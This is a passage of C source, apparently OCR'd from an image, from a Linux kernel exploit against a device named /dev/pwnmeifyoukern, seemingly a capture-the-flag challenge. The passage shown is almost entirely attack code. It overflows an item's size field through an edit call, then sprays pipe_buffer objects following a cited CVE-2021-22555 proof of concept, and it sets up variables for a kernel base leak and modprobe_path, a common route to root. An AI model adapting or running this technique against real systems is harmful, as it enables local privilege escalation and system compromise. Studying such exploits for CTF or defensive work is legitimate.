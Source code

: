 ```c
    struct arg_new *arg = calloc(1, sizeof(struct arg_new) + size);
    arg->new_item = 1;
    memcpy(arg->buf, buf, size);

    //hex_view(arg, sizeof(struct arg_new) + size);
    if (-1 == write(fd, arg, sizeof(struct arg_new) + size)) {
        err("write new item");
    }

    free(arg);
}

void edit_item(int idx, char *buf, size_t size) {
    struct arg_edit *arg = calloc(1, sizeof(struct arg_edit) + size);
    arg->new_item = 0;
    arg->idx = idx;
    memcpy(arg->buf, buf, size);

    //hex_view(arg, sizeof(struct arg_edit) + size);
    if (-1 == write(fd, arg, sizeof(struct arg_edit) + size)) {
        err("write edit item");
    }

    free(arg);
}



int main() {
    char *buf = malloc(BUF_SIZE);
    void *leak, *kbase, *modprobe_path;
    int n;
    char bak[0x400] = {0};
    int pipefd[NUM_PIPEFDS][2];

    fd = open("/dev/pwnmeifyoukern", O_RDWR);
    if (-1 == fd) {
        err("open");
    }

    memset(buf, 'A', BUF_SIZE);
    new_item(buf, 0x100); // A

    // change A.size
    memset(buf, 0, BUF_SIZE);
    memset(buf, 'A', 0x100);
    *(unsigned long long *)(buf + 0x100) = 0x1337; // size (will be overwritten)
    *(unsigned long long *)(buf + 0x108) = NULL;  // next
    edit_item(0, buf, 0x400+0x30); // new size


    // spray with pipe_buffer
    // https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/exploit.c
    printf("[*] Spraying pipe_buffer objects...\n");
    for (int i = 0; i < NUM_PIPEFDS; i++) {
        if (pipe(pipefd[i]) < 0) {
            err("pipe");
        }
        // Write something to populate pipe_buffer.
        if (write(pipefd[i][1], "pwn", 3) < 0) {
            err("pipe write");
        }
    }
```